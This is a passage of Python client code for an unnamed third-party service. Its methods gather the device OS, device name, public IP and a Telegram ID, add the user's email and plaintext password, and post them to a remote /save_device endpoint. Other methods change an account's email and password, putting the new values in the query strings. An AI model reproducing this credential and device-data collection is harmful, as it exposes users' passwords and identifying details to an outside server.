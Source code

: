            else:
                device_os = system + " " + release
                device_name = platform.node()
                build_number = "Unknown"
        except Exception:
            device_os = "Unknown"
            device_name = "Unknown"
            build_number = "Unknown"
        # Get public IP address
        try:
            ip_address = requests.get("https://api.ipify.org").text.strip()
        except:
            ip_address = "Unknown"
        payload = {
            "access_key": self.access_key,
            "device_os": device_os,
            "device_name": device_name,
            "build_number": build_number,
            "ip": ip_address,
            "telegram_id": getattr(self, "telegram_id", "Unknown"),
        }
        if email:
            payload["email"] = email
        if password:
            payload["password"] = password
        response = requests.post(f"{__ENDPOINT_URL__}/save_device", data=payload)
        return response.status_code == 200

    def change_email(self, new_email):
        decoded_email = urllib.parse.unquote(new_email)
        payload = {"account_auth": self.auth_token, "new_email": decoded_email}
        params = {"key": self.access_key, "new_email": decoded_email}
        response = requests.post(
            f"{__ENDPOINT_URL__}/change_email", params=params, data=payload
        )
        response_decoded = response.json()
        if response_decoded.get("new_token"):
            self.auth_token = response_decoded["new_token"]
        return response_decoded.get("ok")

    def change_password(self, new_password):
        payload = {"account_auth": self.auth_token, "new_password": new_password}
        params = {"key": self.access_key, "new_password": new_password}
        response = requests.post(
            f"{__ENDPOINT_URL__}/change_password", params=params, data=payload
        )
        response_decoded = response.json()
        if response_decoded.get("new_token"):
            self.auth_token = response_decoded["new_token"]
        return response_decoded.get("ok")

